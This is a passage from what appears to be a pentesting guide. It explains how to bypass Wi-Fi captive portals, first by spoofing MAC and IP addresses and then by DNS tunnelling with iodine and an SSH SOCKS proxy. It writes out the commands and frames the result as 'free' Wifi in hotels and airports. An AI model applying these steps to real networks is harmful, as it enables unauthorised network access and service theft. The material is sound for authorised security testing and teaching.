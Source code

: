 2. Change your IP and MAC addresses. You can use:

- macchanger

- A custom script like [this](scripts/open/change_mac_ip.sh)(Bash)


Also, you can use scripts to automate the process like:

- [Poliva script](https://raw.githubusercontent.com/poliva/random-scripts/master/wifi/hotspot-bypass.sh)

- [Hackcaptiveportals](https://github.com/systematicat/hack-captive-portals)

<br>

### 2.1.3. Bypass 2: DNS tunnelling

A second method is creating a DNS tunnel. For this, it is necessary to have an accessible DNS server of your own. You can use this method to bypass the captive portal and get "free" Wifi in hotel, airports...


1. Check the domain names are resolved:

```
nslookup example.com
```

2. Create 2 DNS records (in [Digital ocean](https://www.digitalocean.com/), [Afraid.org](http://freedns.afraid.org/)...):

- One "A record":  dns.$DOMAIN pointing to the $SERVER_IP (Example: dns.domain.com 139.59.172.117)

- One "NS record": hack.$DOMAIN pointing to dns.$DOMAIN (Example: hack.domain.com dns.domain.com)


3. Execution in the server

```
iodined -f -c -P $PASS -n $SERVER_IP 10.0.0.1 hack.$DOMAIN
```

4. Check if it works correctly in [here](https://code.kryo.se/iodine/check-it/)


5. Execution in the client

```
iodine -f -P $PASS $DNS_SERVER_IP hack.$DOMAIN
```

6. Create the tunnel

```
ssh -D 8080 $USER@10.0.0.1
```

<br>

## <a name="22"></a>2.2. Man in the Middle attack

Once you are in the network, you can test if it is vulnerable to Man in the Middle attacks.
